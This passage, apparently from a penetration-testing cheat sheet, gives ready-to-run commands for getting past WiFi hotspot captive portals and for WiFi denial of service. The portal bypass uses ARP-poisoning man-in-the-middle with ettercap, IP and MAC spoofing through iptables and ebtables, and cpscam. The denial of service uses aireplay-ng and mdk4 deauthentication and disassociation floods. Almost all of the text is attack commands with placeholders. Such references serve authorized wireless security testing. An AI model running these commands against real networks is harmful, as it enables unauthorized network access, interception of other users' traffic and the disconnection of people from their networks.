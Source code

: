### Method 1: MiTM
1. Activate IP forwarding:
```
echo 1 > /proc/sys/net/ipv4/ip_forward
```
2. MiTM (ARP cache poisoning) between gateway & authorized client:
```
ettercap -T -q -i wlan0 -w dump -M ARP /<IP_authorized_client>/ /<IP_gateway>/
```
3. All packets sent from the attacker will have to spoof the authorized client IP except for packets going in the LAN:
```
iptables -t nat -A OUTPUT -d ! <LAN> -j SNAT --to <IP_authorized_client>
```
4. Increments TTL:
```
iptables -t mangle -A FORWARD -d <IP_authorized_client> -j TTL --ttl-inc 1
```

### Method 2: Inactive users
Spoof IP address of authorized client who has become inactive on hotspot (tool https://github.com/codewatchorg/cpscam):
```
perl cpscam.pl <interface> <ListenIP> <SubnetMask> <InactivityTimeout> <CaptiveLogoffURL>
```

## IP+MAC based authorization
1. Turn interface into bridge mode:
```
modprobe bridge
brctl addbr br0
brctl addif br0 <interface>
```
2. All frames sent by attacker to the gateway will have a spoofed source MAC address:
```
ebtables -t nat -A POSTROUTING -o <interface> -d <MAC_gateway> -j snat --to-source <MAC_authorized_client>
```
3. Apply IP based authorization bypass - Method 1 (MiTM) (cf. before).

</br>

# WiFi Denial of Service

## Deauthentication / Disassociation
* Deauthentication Attack:
```
aireplay-ng --deauth 0 -c <MAC_target> -a <MAC_AP> mon0  # Infinite amount of deauth attacks
aireplay-ng --deauth 5 -c <MAC_target> -a <MAC_AP> mon0  # 5 deauth attacks
```
* Deauthentication + Disassociation Attack:
```
mdk4 mon0 d -b <MAC_AP_file> -c <channel>  # MAC_AP_file stores MAC address of AP. All clients connected to the AP will be targeted
mdk4 mon0 d -c <channel> -b <victim_client_mac.txt> -E <SSID> -B <MAC_AP>  # victim_client_mac.txt contains MAC of device to disconnect
mdk4 mon0 d -c <channel> -E <SSID>  # Simple. Disconnect all clients connected on AP with SSID
```
